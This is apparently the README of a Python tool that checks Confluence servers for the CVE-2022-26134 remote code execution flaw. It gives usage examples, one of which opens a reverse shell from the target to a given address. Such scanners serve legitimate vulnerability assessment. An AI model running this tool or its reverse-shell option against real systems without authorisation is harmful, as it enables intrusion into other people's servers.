 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Checks are invasive- mmeaning RCE will be performed (but on a non-destructive way)
* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
